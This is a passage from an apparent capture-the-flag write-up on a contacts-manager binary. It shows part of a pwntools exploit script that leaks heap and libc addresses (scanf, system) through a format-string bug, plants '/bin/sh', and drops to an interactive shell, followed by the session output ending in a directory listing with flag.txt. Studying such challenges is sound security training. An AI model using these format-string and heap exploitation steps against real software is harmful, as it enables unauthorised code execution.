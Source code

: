 ```
target.sendline("2")
print target.recvuntil(">>>")
target.sendline("50")
target.sendline("/bin/sh")
print target.recvuntil(">>>")

#Print the needed information
print "leak0: this has chaned" + hex(hleak0)
print "leak1: " + hex(hleak1)
print "scanf: " + hex(scanf_leak)
print "system: " + hex(sys_adr)
print "s1: " + hex(s1) + " " + str(s1)
print "s2: " + hex(s2) + " " + str(s2)

#Drop to an interactive shell and hand the process over to gdb
gdb.attach(target)
target.interactive()
```

running the script:
```
$	python exploit.py
```

once we get to the interactive shell:
```
[+] Waiting for debugger: Done
[*] Switching to interactive mode
 Length of description: Description: 
    Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> $ 4 
```

after the prinft exploit:
```
$ 3
                                                                                                                                                                                                                     804b016
    Name: guy4
    Length 50
    Phone #: 2759830416
    Description: /bin/sh
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> Name to change? $ guy4
1.Change name
2.Change description
>>> $ 2
$ ls
contacts_54f3188f64e548565bc1b87d7aa07427
core
exploit.py
flag.txt
fmt_recon.py
heap_recon.py
```